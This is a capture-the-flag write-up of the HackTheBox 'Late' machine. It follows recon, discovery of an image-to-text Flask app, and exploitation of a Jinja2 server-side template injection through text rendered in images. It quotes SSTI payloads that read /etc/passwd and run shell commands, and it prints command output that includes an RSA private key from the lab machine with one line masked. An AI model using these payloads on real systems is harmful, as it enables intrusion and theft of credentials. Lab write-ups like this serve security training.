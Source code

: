 # Late

## Late

**Date**: 22/05/2022

**Difficulty**: EASY

**CTF**: [https://app.hackthebox.com/machines/Late](https://app.hackthebox.com/machines/Late)

***

## Recognizance Phase

Let’s start sending a ping to the target IP:

<figure><img src="../../.gitbook/assets/late0.png" alt=""><figcaption></figcaption></figure>

We receive the ping back and we can see that ttl value is 63, so the target machine is a linux.

Let’s scan all TCP ports of the target IP machine and see which ones are open:

<figure><img src="../../.gitbook/assets/late1.png" alt=""><figcaption></figcaption></figure>

It reports us 2 open ports: 22 (probably ssh) and 80 (probably http).

Let’s run some basic enumeration scripts to detect the services and their versions that are running in these ports:

<figure><img src="../../.gitbook/assets/late2.png" alt=""><figcaption></figcaption></figure>

The port 22 is running OpenSSH 7.6p1. If we do a quick search of that version on launchpad:

<figure><img src="../../.gitbook/assets/late3.png" alt=""><figcaption></figcaption></figure>

We can see that the target machine may be running an ubuntu bionic. We’ll see later if it matches.

The port 80 is running a HTTP service and it appears to be using nginx 1.14.0. Let’s launch a whatweb scan to that service:

<figure><img src="../../.gitbook/assets/late4.png" alt=""><figcaption></figcaption></figure>

At email, we can see that it’s using the domain late.htb, so let’s add it to the /etc/hosts file in our machine:

<figure><img src="../../.gitbook/assets/late5.png" alt=""><figcaption></figcaption></figure>

Now, let’s visit the webpage with the IP and with the domain late.htb to see if there is any difference (in this case the page displayed seems to be the same).

<figure><img src="../../.gitbook/assets/imagen (11) (1).png" alt=""><figcaption></figcaption></figure>

Taking a look to the main webpage I discover a link that redirect us to the subdomain `images.late.htb`:

<figure><img src="../../.gitbook/assets/imagen (12) (1).png" alt=""><figcaption></figcaption></figure>

Let’s add it to the /etc/hosts file and visit it:

<figure><img src="../../.gitbook/assets/imagen (13) (1).png" alt=""><figcaption></figcaption></figure>

Interesting, it seems to be an online service for converting image to text using a tool named Flask. There is a field where we can select a file of our machine and a button that will start the scan process…

Let’s test it with a valid image with text to see what happens:

<figure><img src="../../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

I have uploaded a PNG file with the text ”Hi, I’m Angel LM!” and after clicking on SCAN IMAGE button the site asks me to download the results… Let’s see what’s inside:

<figure><img src="../../.gitbook/assets/late10.png" alt=""><figcaption></figcaption></figure>

Pretty close to the text!

Let’s investigate about Flask. According to Wikipedia, Flask is a micro web framework written in Python that allows to create web apps.

As we saw earlier, this app is getting an image, finding the text inside it, and sending us the result in an HTML way `<p> THE RESULT </p>`

Maybe we can inject code as a file, inside the file name or in a image as text.

Let’s use Burp Suite to intercept a petition and see more info:

<figure><img src="../../.gitbook/assets/late11.png" alt=""><figcaption></figcaption></figure>

Apparently it is sending the data image by POST to /scanner.

Let’s try to upload a TXT file to the form.

<figure><img src="../../.gitbook/assets/late12.png" alt=""><figcaption></figcaption></figure>

An error “invalid extension” shows up any time I try to upload any file that hasn’t an image file extension.

What if I change the extension to .jpg, creating a non valid image?

<figure><img src="../../.gitbook/assets/late13.png" alt=""><figcaption></figcaption></figure>

Mmm… there is some information leakage? Apparently there is a user named `svc_acc` in the target machine. The files I send to scanner are being saved in `/home/svc_acc/app/uploads/` folder.

Ok, so there is no way to upload a malicious file. What about injecting the code inside the image? If we create an image of a code that could be executed by the framework we get an RCE and maybe we can get a Reverse Shell after.

I found this interesting article from hacktricks: [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

The first step is to know if there is an Server Side Template Injection (SSTI) vulnerability.

To do so, I prepared this image:

<figure><img src="../../.gitbook/assets/late14.png" alt=""><figcaption></figcaption></figure>

And received this response from the scan web tool:

```bash
<p>49
${7*7}

<%= /*/] %>
S49
#{7*7}
</p>
```

Apparently, the strings `{{7*7}}` are being executed, so it is vulnerable to SSTI. Nice.

Now, let’s do some more checks to identify the template engine.

<figure><img src="../../.gitbook/assets/late15.png" alt=""><figcaption></figcaption></figure>

Apparently, Flash uses Jinja2 by defect, but let’s check it:

<figure><img src="../../.gitbook/assets/late16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late17.png" alt=""><figcaption></figcaption></figure>

```bash
<p>7777777
</p>
```

Seems to be Jinja2.

In the hacktricks article, there are some examples of reading remote files exploiting jinja2:

```bash
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

And examples of RCE:

```bash
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

The scanning app doesn’t recognize the text very well and it drop errors everytime I try to upload an image with executable code, and it’s hard to know where it failed. To deal with this, I removed the `{{ }}` from the text and modify the size of the text one time after another until the text I wrote is the same I received.

<figure><img src="../../.gitbook/assets/late18.png" alt=""><figcaption></figcaption></figure>

Monospace 36 with kerning adjustments in some parts.

<figure><img src="../../.gitbook/assets/late19.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late21.png" alt=""><figcaption></figcaption></figure>

I tried to launch a reverse shell in multiples ways: bash, python, netcat… but no one succeded, so I’ll do manual enumeration via SSTI i guess…

<figure><img src="../../.gitbook/assets/late22.png" alt=""><figcaption></figcaption></figure>

```bash
<p>svc_acc

</p>
```

<figure><img src="../../.gitbook/assets/late23.png" alt=""><figcaption></figcaption></figure>

```bash
<p>app
file
user.txt

</p>
```

<figure><img src="../../.gitbook/assets/late24.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 60
drwxr-xr-x 9 svc_acc svc_acc  4096 May 23 21:11 .
drwxr-xr-x 3 root    root     4096 Jan  5 10:44 ..
drwxrwxr-x 7 svc_acc svc_acc  4096 May 23 21:16 app
lrwxrwxrwx 1 svc_acc svc_acc     9 Jan 16 18:45 .bash_history -&gt; /dev/null
-rw-r--r-- 1 svc_acc svc_acc  3771 Apr  4  2018 .bashrc
drwx------ 3 svc_acc svc_acc  4096 Apr  7 13:51 .cache
drwxr-x--- 3 svc_acc svc_acc  4096 May 23 20:15 .config
-rw-rw-r-- 1 svc_acc svc_acc     0 May 23 20:42 file
drwx------ 4 svc_acc svc_acc  4096 May 23 20:09 .gnupg
drwxrwxr-x 5 svc_acc svc_acc  4096 Jan  5 12:13 .local
-rw-r--r-- 1 svc_acc svc_acc   807 Apr  4  2018 .profile
drwx------ 2 svc_acc svc_acc  4096 May 23 20:04 .ssh
-rw-r----- 1 root    svc_acc    33 May 23 19:12 user.txt
drwxr-xr-x 2 svc_acc svc_acc  4096 May 23 20:40 .vim
-rw------- 1 svc_acc svc_acc 10192 May 23 21:11 .viminfo

</p>
```

<figure><img src="../../.gitbook/assets/late25.png" alt=""><figcaption></figcaption></figure>

```bash
<p>8374#######################b33

</p>
```

<figure><img src="../../.gitbook/assets/late26.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 20
drwx------ 2 svc_acc svc_acc 4096 May 23 20:04 .
drwxr-xr-x 9 svc_acc svc_acc 4096 May 23 21:11 ..
-rw-rw-r-- 1 svc_acc svc_acc  394 May 23 20:04 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7 11:08 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7 11:08 id_rsa.pub

</p>
```

```bash
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
################################################################
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```

<figure><img src="../../.gitbook/assets/late27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late28.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late31.png" alt=""><figcaption></figcaption></figure>
